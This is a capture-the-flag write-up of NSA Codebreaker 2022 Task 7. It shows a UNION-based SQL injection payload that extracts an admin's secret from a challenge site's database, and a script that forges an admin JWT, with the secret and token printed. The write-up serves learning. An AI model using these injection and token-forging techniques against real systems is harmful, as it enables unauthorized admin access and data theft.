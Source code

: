 ```yaml
---
title: "NSACodebreaker2022 - Task7"
topic: "general"
tags: ["web-hacking", "sql-injection"]
prev: "http://andrewromans.com/posts/nsacodebreaker2022-task6"
next: "http://andrewromans.com/posts/nsacodebreaker2022-task8"
date: 2022-12-20T11:37:37-05:06
---
```


# Table of Contents
1. [Task A1](http://andrewromans.com/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://andrewromans.com/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://andrewromans.com/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://andrewromans.com/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://andrewromans.com/posts/nsacodebreaker2022-task5/)
6. [Task 6](http://andrewromans.com/posts/nsacodebreaker2022-task6/)
7. [Task 7](#task-7)
	- [Solution](#solution)
8. [Task 8](http://andrewromans.com/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://andrewromans.com/posts/nsacodebreaker2022-task9/)

## Task 7

- - -
###### With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

###### Generate a new token value which will allow you to access the ransomware site as an administrator.
- - -

### Solution

Having access to the web server can only take us so far without having unlimited access to all the site has to offer. However, the credentials we uncovered only provide us user access. We will need to somehow generate an admin JWT token, which unfortunately isn't as easy as changing a plain text role value from `user` to `admin`. 

Luckily, we have the source code - so we can see what differentiates an admin from a user. 

The `server.py` script holds the web framework logic that checks if a user is admin before allowing access to the requested area of the web server. The function used to check is `util.check_admin()`. The logic looks like the following:

```python
def is_admin():
	""" Is the logged-in user an admin? """	
	uid = get_uid()
	with userdb() as con:
		query = "SELECT isAdmin FROM Accounts WHERE uid = ?"
		row = con.execute(query, (uid,)).fetchone()
		if row is None:
			return False
		return row[0] == 1 

def check_admin(f):
	""" Call f only if user is an admin """
	if not is_admin():
		return render_template("admininvalid.html")
	return f()
```

It looks like there is a query to a database that holds the information as to whether the `uid` is associated to an `admin` account. We also know that in order to generate a valid JWT token for an admin account - we will need this account's `secret` value as seen by the `generate_token` function:

```python
row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
```

This means if we want to get any of this information we will need to somehow compromise the database which holds the information, and what better way to do that than with sql injection?

Looking around the source code, most of the sql queries are safe and sound but one. Within the `userinfo()` function in `server.py` there is a query to look up information on various users.

```python
infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
```

And instead of using a parameterized query, denoted by the `?` character; instead this query passing in our user input via a `string` without any input sanitization! This is very dangerous and indeed vulnerable to sql injection, but very lucky for us. 

Playing with the website, I was able to come across the name of an active admin member: `ClassyMenorah`. Since we know the username of this admin, we can craft a special payload to extract the `uid` and `secret`. Unfortunately, however, this `userinfo()` function casts all of our returned strings to integers! This won't work if we want the secret in an ascii readable format!

Luckily, sql provides many functions such as `HEX`, `substr`, `CAST`, and `AS` keywords that can help us out in the process of extracting this information. Piecing together several injection commands like the following:

```
' UNION SELECT uid,LENGTH(secret),CAST(HEX(substr(secret, 20, 22)) AS FLOAT), CAST(HEX(substr(secret, 22, 22)) AS int) FROM Accounts WHERE userName='ClassyMenorah'; -- 
```

Can gives us 90% of the secret key in hex format that we can convert to ascii on our own. However, there are a few characters that gives us way more information that we need. 

In order for me to better test what was going on - I wrote my own script to test what was happening in the backend. Playing with the values I was receiving and their hex form quite a bit. 

* 9223372036854775807 casted as an integer 
* 59346176483058553716736 cased as a float.

Some of you may recognize what is happening here, but it took me longer than I'd like to admit to figure out what was happening. `9223372036854775807` is the maximum signed integer value that can be stored. However - `59346176483058553716736` was not the max float value. Looking closer - I was able to see overlap from previous hex values I was looking at, which completed the process of extracting the admin secret. 

```
6743345A637A6533364D6F304739685938394D59346176483058553231336D46
                           or
             gC4Zcze36Mo0G9hY89MY4avH0XU213mF
```

Adjusting my JWT token generator script from task 6 to change the `uid` and `secret`

```python
import codecs
hex_str = "6743345A637A6533364D6F304739685938394D59346176483058553231336D46"
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("45619", "gC4Zcze36Mo0G9hY89MY4avH0XU213mF")
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

This outputs a valid JWT admin token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA


{'iat': 1661168836, 'exp': 1663760836, 'uid': '45619', 'sec': 'gC4Zcze36Mo0G9hY89MY4avH0XU213mF'}
```

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA`

![Task 7 Badge](/posts/badge7.png "Task 7 Badge")

- - -